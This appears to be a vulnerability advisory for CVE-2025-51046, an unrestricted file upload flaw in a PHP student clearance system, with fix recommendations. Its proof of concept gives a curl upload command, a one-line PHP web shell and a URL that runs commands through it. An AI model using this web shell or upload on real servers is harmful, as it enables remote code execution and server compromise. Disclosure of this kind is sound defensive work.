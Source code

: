 # CVE-2025-51046 - Remote File Upload Vulnerability in SourceCodeste Online Student Clearance System v1.0

## Overview

**CVE ID**: CVE-2025-51046  
**Vendor**: SourceCodeste  
**Product**: Online Student Clearance System using PHP and MySQL  
**Version**: 1.0  
**Component**: `edit-photo.php` file upload functionality (and the `/uploads/` directory)  
**Attack Type**: Remote  
**Vulnerability Type**: Remote File Upload (leading to Remote Code Execution)  
**Discoverer**: Meshari Alluhaybi

---

## Description

SourceCodeste Online Student Clearance System v1.0 has an unrestricted file upload vulnerability in the `edit-photo.php` file. The application fails to validate or restrict uploaded file types, allowing an attacker to upload a PHP script (e.g., a web shell). The script is stored in the publicly accessible `/uploads/` directory, enabling remote attackers to execute arbitrary system commands on the server.

---

## Attack Vectors

An attacker can exploit this vulnerability by uploading a malicious PHP file via the file upload functionality in `edit-photo.php`. Due to lack of proper file type restrictions and sanitization, the malicious file is stored in `/uploads/` where it can be directly accessed and executed.

---

## Proof of Concept (PoC)

### 1. Upload the Web Shell

curl -F "userImage=@shell.php;type=application/x-php" -F "btnedit=" http://192.168.8.138/edit-photo.php

**Contents of `shell.php`:**

<?php system($_GET['cmd']); ?>

### 2. Execute Remote Commands

Access the uploaded shell:

http://192.168.8.138/uploads/shell.php?cmd=id

This command will execute the `id` command on the server, proving remote code execution.

---

## Affected Product Details

* **Vendor**: SourceCodeste
* **Product**: Online Student Clearance System using PHP and MySQL
* **Version**: 1.0
* **Component**: `edit-photo.php` (file upload functionality) and `/uploads/` directory

---

## Impact

* Full remote code execution on the server
* Potential system compromise and privilege escalation
* Unauthorized manipulation of the web application

---

## Recommendations

* **File Upload Restrictions**: Enforce strict file extension whitelisting (e.g., allow only `.jpg`, `.png`).
* **MIME Type Verification**: Check MIME types on the server side to ensure files match allowed types.
* **Storage Location**: Store uploaded files outside the web root to prevent direct access.
* **File Renaming**: Rename uploaded files and remove original extensions to reduce risk.

---

## References

* [SourceCodester](http://sourcecodester.com)
* [Online Student Clearance System](http://online.com)

---
